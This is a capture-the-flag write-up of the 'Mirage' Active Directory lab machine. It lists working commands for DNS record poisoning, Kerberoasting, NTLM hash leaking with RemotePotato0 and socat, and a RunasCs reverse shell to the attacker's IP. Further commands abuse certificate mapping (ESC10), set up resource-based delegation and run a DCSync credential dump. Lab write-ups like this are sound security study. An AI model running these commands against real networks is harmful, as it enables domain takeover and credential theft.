Mirage

Mirage was a hard-difficulty Windows Active Directory box that began with exploiting unauthenticated dynamic DNS updates to poison the missing nats-svc.mirage.htb record, redirecting NATS authentication traffic to capture Dev_Account_A credentials. Using these NATS-specific credentials with a client, I enumerated JetStream message streams to discover david.jjackson's domain credentials in authentication logs.
As david.jjackson, I performed Kerberoasting against nathan.aadam (who had an SPN set) and cracked his TGS ticket to obtain his password "3edc#EDC3". With WinRM access as nathan.aadam, I discovered mark.bbond's username in the autologon registry and confirmed an active logon session using RunasCs to bypass evil-winrm's limitations. I executed a Cross-Protocol Hash Leak attack using RemotePotato0 with socat relay to force mark.bbond's NTLM authentication through DCOM, capturing and cracking his NetNTLMv2 hash to reveal the pass "1day@atime".
As mark.bbond, I exploited write permissions on javier.mmarshall's UAC and logonhours attributes to enable his disabled account and allow authentication. After forcing a password reset on javier.mmarshall, I used his ReadGMSAPassword permission to extract the Mirage-Service$ account hash remotely via netexec. With GenericWrite over mark.bbond, I exploited ESC10 (weak certificate mapping with CertificateMappingMethods set to 0x4) by manipulating mark.bbond's UPN to DC01$@mirage.htb, requesting a certificate, then using certipy's LDAP shell functionality to authenticate as the DC over LDAPS despite security extensions being enabled.
From the LDAP shell, I configured Resource-Based Constrained Delegation on DC01$ to trust nathan.aadam (who had an existing SPN), then used impacket-getST to impersonate DC01$ itself after Administrator impersonation failed due to built-in protections. Finally, I performed a DCSync attack with secretsdump to extract the Administrator's NTLM hash "7be6d4f3c2b9c0e3560f5a29eeb1afb3" and authenticated via Kerberos with impacket-getTGT to achieve domain compromise.
User flag

Initial nmap scan reveals the DC hostname, domain name, nfs on port 2049, and quite a few other ports. I'll start off by taking a look at the network share.
Network share examination
showmount -e 10.10.11.78

The MirageReports share is accessible to everyone. I'll mount it onto my host.
sudo mount -t nfs 10.10.11.78:/MirageReports /tmp/MirageReports

There are 2 PDF files inside. The first one, Incident_Report_Missing_DNS_Record_nats-svc.pdf, describes an incident related to the nats-svc.mirage.htb hostname missing within the internal network due to automatic removal of DNS records that are not refreshed within 14 days.

This note is a huge clue as to how this problem could be used to my advantage. However, I don't have any users for the domain yet, so the easiest way is out of the window.
The other PDF mentions that NTLM authentication is monitored, and that Kerberos is the preferred auth method. I'll keep this in mind.
Adding the malicious DNS record without credentials
I will check whether I can add DNS without authentication. Normally, this would not be possible, but there may be a misconfiguration on the server that could allow this. It's worth a try.
dig @10.10.11.78 nats-svc.mirage.htb

Right now, the nats-svc record does not exist within the domain. I'll use nsupdate to try to add it, with the IP pointing back to my box.
└─$ nsupdate
> server 10.10.11.78
> zone mirage.htb
> update add nats-svc.mirage.htb. 60 A 10.10.16.213 | Add an A DNS record with the specified data, with a lifetime of 60 seconds(TTL)
> send
> quit

And this worked! Now every time a service tries to resolve nats-svc.mirage.htb, it will be pointed back to my box. In order to actually capture authentication attempts from the automated services, one more step must be performed.
I downloaded the nats-server binary from the kali apt repository. I'll make it listen on all addresses(0.0.0.0) and on port 4222(default).
nats-server -p 4222 --addr 0.0.0.0

Then, I'll run tcpdump on tun0 and only on port 4222, adding the -A flag to make it print out the ASCII data of each captured packet.
sudo tcpdump -i tun0 -A port 4222
And after adding the DNS record again, a few packets were caught by tcpdump not long after that.

Dev_Account_A | hx5h7F5554fP@1337!
To confirm whether the credentials are valid for the domain, I'll try to authenticate with netexec.
https://notes.benheater.com/books/active-directory/page/kerberos-authentication-from-kali

The credentials are invalid. This user cannot authenticate to the domain with this password.
Reading the NATS message streams
Since I've got these creds from a NATS client trying to authenticate to my server, I will try using them with a client of my own to enumerate the server on mirage.htb.
https://github.com/nats-io/natscli?tab=readme-ov-file#installation

I did not know what a JetStream Stream was, so I looked it up online.
https://docs.nats.io/nats-concepts/jetstream
JetStream is a persistence engine built into NATS, which allows for messages to be stored and replayed at a later time. This is just a small snippet of this functionality, but it's enough for me to focus on it for now.
nats -s nats://dc01.mirage.htb:4222 --user Dev_Account_A --password 'hx5h7F5554fP@1337!' stream view

david.jjackson | pN8kQmn6b86!1234@
The only stream I could retrieve comes from the auth log, and reveals a new pair of credentials for David. I'll check them against the domain.

Kerberoasting nathan.aadams
bloodyAD -d mirage.htb -u david.jjackson -p 'pN8kQmn6b86!1234@' -k --host dc01.mirage.htb --dc-ip 10.10.11.78 get writable

David himself doesn't have any interesting permissions visible. I'll just go forward with checking every attack path I know, starting with kerberoasting.
impacket-GetUserSPNs -k -dc-ip 10.10.11.78 -dc-host dc01.mirage.htb mirage.htb/david.jjackson:'pN8kQmn6b86!1234@'

Nathan.aadams is a kerberoastable user, meaning I can request a TGS in a crackable format, and potentially crack it with hashcat.

Nathan.aadams is in the Remote Management Users group via membership in the IT_Admins OU, making him a very valuable, and currently my only target.

I'll save this ticket in a separate file, and I will attempt to crack it with hashcat.

nathan.aadams | 3edc#EDC3
Since NTLM auth is not favored, I will request a TGT for Nathan with impacket's getTGT. After exporting the KRB5CCNAME, I'll connect to the machine with evil-winrm.

Root flag
I uploaded SharpHound onto the machine and ingested the data into BloodHound to look for a path forward.
Bloodhound enumeration

mark.bbond can force a password change on javier.mmarshall.

Javier can read the GMSA password of the Mirage-Services account.

And that account is a member of the domain computers group, which can enroll in 3 certificate templates.
Cross-Protocol Hash Leak
(Note: When initially solving the box, I owned mark.bbond by using the revealed autologon credentials, which contained his password. This has been patched)
My next step right now is finding a way to own mark.bbond, and then abuse the previously mentioned attack path. Back in my nathan.aadam shell, I'll run winPEAS to get some information about the DC.

A default username for autologon was found. This functionality is used for automatically logging into a system as a user after startup, and the related data is stored in the registry, under the HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon key.

It's just the username here, but the fact that there is something related to a user here points me towards the possibility that someone else might be logged into the DC. To check this, I'll run the query user or quser command.

However, this will not work in evil-winrm. The reason for this is that evil-winrm provides a somewhat limited, non-interactive shell (network logon) that does not allow us to interact with Windows functions that require an interactive logon session.
I can get and use such a session by using RunasCs as nathan.aadam and executing commands in its context. By default, RunasCs will run everything in the context of an interactive (2) logon session.
./RunasCs.exe nathan.aadam '3edc#EDC3' quser

Mark.bbond is currently logged into the DC. Knowing this, I can force the user to initiate an NTLM authentication targetted towards any specified destination to receive the target's NetNTLMv2 hash. I will use RemotePotato0 for this attack.
https://github.com/antonioCoco/RemotePotato0
This tool works by abusing the DCOM activation service to trigger the NTLM auth of a selected user. This is then sent over to a cross-protocol relay server that receives the message and transforms it from RPC protocol to authentication over HTTP. It can be further relayed to ntlmrelayx for NTLM relay attacks, or back to RemotePotato0 to capture the hash. The attack will require 2 commands.
On attacker Box | sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.78:9999 <- This listener will capture and unpack the initial request from RPC protocol to HTTP, then send it back to 10.10.11.78:9999(RemotePotato0)
On the DC | .\RemotePotato0.exe -m 2 -x 10.10.16.9 -p 9999 -s 1 <- This will first initiate the authentication, then receive the transformed HTTP auth and display back the NetNTLMv2 hash
On the attacker box:

And on the DC:

I'll try to crack this hash with hashcat.
hashcat hash /usr/share/wordlists/rockyou.txt

mark.bbond | 1day@atime
Mark.bbond to javier.mmarshall
Checking what objects mark.bbond can modify reveals an interesting entry.

Mark can write into the UAC, and the logonhours properties of javier.mmarshal. The first one contains a value corresponding to the UAC flags set up on the account.
Get-ADUser javier.mmarshall -Properties useraccountcontrol

This value means that the Disabled, Password Doesn't Expire flags are set for Javier. https://jackstromberg.com/2013/01/useraccountcontrol-attributeflag-values/ is a good resource that contains a bunch of UAC flags with their values.
The disabledUAC flag can be removed remotely with bloodyAD, or from a PS shell with Set-ADUser/Set-ADAccountControl. I'll do it the remote way.
bloodyAD -d mirage.htb --host dc01.mirage.htb -k -u mark.bbond -p "1day@atime" remove uac javier.mmarshall -f ACCOUNTDISABLE

Updating javier's logonhours attribute
The logonhours attribute controls when the user is allowed to login. I'll compare the values for Mark and Javier to see if they are any different.

Mark can log in at any time, while Javier cannot login at all. Even if I enable the account, this value being all 0s will keep me from being able to login.
This can be done from the remote shell. I'll update Javier's logonhours by copying the byte array from Mark, but first, I'll have to get a shell as Mark. Trying to use WinRM to remote into the machine fails at SPNEGO negotiation, but having Mark's credentials allows me to send myself a shell with RunasCs.
./RunasCs.exe mark.bbond "1day@atime" powershell -r 10.10.16.213:9001

I'll take the bytes stored in Mark's attribute, and I'll save them in the $LogonHoursBytes variable.
$LogonHoursBytes = Get-ADUser -Identity "mark.bbond" -Properties LogonHours | Select-Object -ExpandProperty LogonHours
However, trying to insert this value like that will fail with the Invalid type 'System.Management.Automation.PSObject' error. This indicates that the variable is holding a powershell object (PSObject) instead of the required raw byte array. I can force the output into a byte array type by adding [byte[]] before my previous command.
[byte[]]$LogonHoursBytes = Get-ADUser -Identity "mark.bbond" -Properties LogonHours | Select-Object -ExpandProperty LogonHours

The 2 values seem to be identical, but I'll try to insert the value again.
Set-ADUser -Identity "javier.mmarshall" -Replace @{LogonHours = $LogonHoursBytes}

Now that both of the problems have been solved, I'll proceed with taking over Javier. From the previous BloodHound enumeration, I know that Mark can force a password change on Javier.
bloodyAD -d mirage.htb --host dc01.mirage.htb -k -u mark.bbond -p "1day@atime" set password javier.mmarshall Password123

Same scenario as before, but here I could not get a shell with RunasCs, because the logon type 2 was not granted to Javier.
[-] RunasCsException: Selected logon type '2' is not granted to the user 'javier.mmarshall'. Use available logon type '3'.
Reading the GMSA password
This doesn't stop me from using his privileges, though, as I can read the GMSA passwords remotely by using netexec.

Mirage-Service$ | 738eeff47da231dec805583638b8a91f
Exploiting ESC10
Looking at the permissions, I can see that Mirage-Service has GenericWrite over mark.bbond.

This means that it can write into every attribute of mark.bbond, like his SPN or his UPN. Aside from targeted kerberoasting, this is often used with certificate attacks like ESC9(No Security Extension) or ESC16(Security Extension Disabled On CA (Globally)). During my BloodHound enumeration, I saw a bunch of certificates, as well as a CA on the domain, which means that ADCS 100% exists on the domain.
certipy-ad find -enabled -vulnerable -dc-ip 10.10.11.78 -dc-host dc01.mirage.htb -u 'Mirage-Service$' -k -no-pass

Certipy returns no vulnerable templates, but this doesn't mean that I can't use the GenericWrite at all. I'll look through the ESC attacks manually to see if some of them are not displayed by certipy.
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc10-weak-certificate-mapping-for-schannel-authentication
ESC10 is not displayed by certipy's find command, but the determinant registry key can be checked under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\

The CertificateMappingMethods value is set to 0x4, confirming the DC as vulnerable to ESC10. I'll try to attack the administrator account.

Administrator already has an UPN set, which makes them an untargettable user for this attack. Certipy wiki mentions attacking the DC account as it has no UPN set by default, which I'll try right now.
certipy-ad account read -user DC01 -dc-ip 10.10.11.78 -dc-host dc01.mirage.htb -u 'Mirage-Service$' -k -no-pass

I'll keep Mark's UPN in mind, as it'll have to be restored later to avoid name mismatch errors while authenticating with the certificate. I'll add the DC's samAccountName to Mark's UPN property with bloodyAD.
bloodyAD -d mirage.htb --host dc01.mirage.htb -k -u 'Mirage-Service$' set object mark.bbond userPrincipalName -v 'DC01$@mirage.htb'

I'll revert Mark's UPN to its original value with bloodyAD -d mirage.htb --host dc01.mirage.htb -k -u 'Mirage-Service$' set object mark.bbond userPrincipalName -v mark.bbond@mirage.htb, and then I'll try authenticating with the cert as the DC.

This failed because of he security extensions being enabled. The SID in that certificate belongs to mark.bbond, so it will always be rejected. The attack targets weak certificate mapping in Schannel specifically, and this can be abused when connecting to LDAPS. Certipy has this functionality, and I'll use it to get an LDAP shell as the DC.
certipy-ad auth -pfx dc01.pfx -dc-ip 10.10.11.78 -domain mirage.htb -ldap-shell

RBCD as nathan.aadam
I can set RBCD(Resource-Based Constrained Delegation) on the DC from this shell. I need an account with an SPN, and I cannot add a computer account due to the MachineAccountQuota being set to 0.
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'

From the users I've taken over so far, one of them had an SPN set. I'll use Nathan.aadam as my target for RBCD as he has the HTTP/exchange.mirage.htb SPN set.

impacket-getST -spn CIFS/dc01.mirage.htb -impersonate administrator -k -no-pass -dc-ip 10.10.11.78 mirage.htb/nathan.aadam

My initial target for impersonation was the administrator, but this failed with a BADOPTION error. The administrator account is protected from impersonation, likely due to built-in protections for RID 500 or membership in the Protected Users group.
Instead, I will impersonate the DC01$ itself and then perform a DCsync with impacket's secretsdump.
impacket-getST -spn CIFS/dc01.mirage.htb -impersonate 'DC01$' -k -no-pass -dc-ip 10.10.11.78 mirage.htb/nathan.aadam

impacket-secretsdump -k mirage.htb/'DC01$'@dc01.mirage.htb

Administrator | 7be6d4f3c2b9c0e3560f5a29eeb1afb3
The last thing I need to do before connecting as the administrator is requesting a ticket as them. NTLM auth will not work even for the administrative users.

Rooted!